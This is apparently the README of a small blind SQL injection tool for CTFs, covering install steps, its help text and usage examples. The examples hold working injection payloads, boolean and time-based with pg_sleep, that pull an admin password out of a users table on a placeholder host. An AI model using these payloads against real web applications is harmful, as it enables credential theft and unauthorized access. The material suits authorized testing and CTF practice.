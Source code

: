 # SCuLi

A beautiful named tool to perform blind SQLi injection.

Are implemented in this version:
- Basic conditionnal responses *sync* and *async* mode.
- Error based *sync* and *async* mode.
- Time based *sync* and *async* mode.

Future developpements:
- SQLi by *OAST*.
- Interactive setup of *SCuLi*.

### Notes for users

You can modify the ALPHABET in `code/utils.py`, by default alphabet is `0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ _-&#$!%*~<>`.

Be careful when setting `--speed` option, `len(ALPHABET)*password_size` requests are sent in few seconds.

When using `--delay` and `--speed`, the delay is exectued between each password index exfiltration.

<br>

# Install

No requirements except a working `python3`.

```bash
git clone https://github.com/Baabbou/SCuLi.git
cd SCuLi
pip3 install -r requirements.txt
```
<br>

# Uses

**Help:**
```
$ python3 ./SCuLi.py --help
usage: SCuLi [-h] [-d DELAY] [--cookie COOKIE] [--proxy PROXY] [-i INPUT] [-s] URL type method payload

A blind SQL Injector.

positional arguments:
  URL
  type                  Can be: basic, error, time, xOAST
  method                Can be: GET or POST
  payload               Example: `' AND SUBSTR((SELECT passwd FROM users WHERE uname='admin'),<index>,1)='<char>'--`

options:
  -h, --help            show this help message and exit
  -d DELAY, --delay DELAY
                        In seconds. Example: `0.5`
  --cookie COOKIE       Example: `PHPSESSID=JWT; csrf=MD5-STUFF`
  --proxy PROXY         Example: `http://127.0.0.1:8080`
  -i INPUT, --input INPUT
                        Example: `./input.json`
  -s, --speed           Request are now made as async requests

Don't hack good people pls.
```
<br>

**Simple Example:**
```bash
$ cat input.json
{
    "params": {
        "username": "admin<>",
        "password": "p4ssw0rd"
    }
}

$ python3 ./SCuLi.py "http://vulnerable.net/" basic GET "' AND SUBSTRING((SELECT passwd from users where uname='admin'),<index>,1)='<char>' AND 1=TO_CHAR(1/0)--" -i "input.json" -d 1.5
```
<br>

**Complex example:**
```bash
$ cat input.json
{
    "params": {},
    "cookie": "TrackingId=sqlihere<>; session=MD5-Stuff"
}

$ python3 ./SCuLi.py "https://vulnerable.net/login" time GET "abc'%3b SELECT CASE WHEN (SUBSTRING((SELECT passwd from users where uname='admin'),<index>,1)='<char>') THEN pg_sleep(3) ELSE pg_sleep(0) END --" -i input.json --proxy "http://127.0.0.1:8080" --speed
```
<br>

# Warning

Don't use it for bad things, it's just a CTF tool.
It's also still in developement so don't be rude with it :)

<br>


# Contact

Don't contact me.
